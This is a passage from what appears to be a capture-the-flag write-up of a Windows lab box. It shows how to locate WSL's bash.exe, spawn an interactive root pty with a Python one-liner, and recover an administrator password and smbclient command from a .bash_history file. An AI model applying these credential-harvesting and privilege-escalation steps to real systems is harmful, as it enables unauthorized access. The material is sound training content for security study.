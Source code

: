     
    C:\Users\tyler\Desktop>where /R c:\ bash.exe                       
    where /R c:\ bash.exe     
    c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
    

Now it’s just a matter of running it, and using `python` to get a interactive
pty, just like on a Linux host:

    
    
    C:\Users\tyler\Desktop>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
    i mesg: ttyname failed: Inappropriate ioctl for device
    id 
    uid=0(root) gid=0(root) groups=0(root)  
    
    python -c 'import pty;pty.spawn("/bin/bash")'
    root@SECNOTES:~#
    

Now this root shell doesn’t have any specific privileges on the box. In fact,
it has pretty sandboxed access, and can’t access anything tyler can’t access.
But, I can look around in that sandbox, starting with the home directory:

    
    
    root@SECNOTES:~# ls -la                                     
    total 8                                       
    drwx------ 1 root root  512 Jun 22  2018 .      
    drwxr-xr-x 1 root root  512 Jun 21  2018 ..    
    ---------- 1 root root  398 Jun 22  2018 .bash_history
    -rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc    
    -rw-r--r-- 1 root root  148 Aug 17  2015 .profile         
    drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
    

The `.bash_history` isn’t empty… I’ll check it out:

    
    
    root@SECNOTES:~# cat .bash_history
    cat .bash_history
    cd /mnt/c/
    ls
    cd Users/
    cd /
    cd ~
    ls
    pwd
    mkdir filesystem
    mount //127.0.0.1/c$ filesystem/
    sudo apt install cifs-utils
    mount //127.0.0.1/c$ filesystem/
    mount //127.0.0.1/c$ filesystem/ -o user=administrator
    cat /proc/filesystems
    sudo modprobe cifs
    smbclient
    apt install smbclient
    smbclient
    smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
    > .bash_history
    less .bash_history
    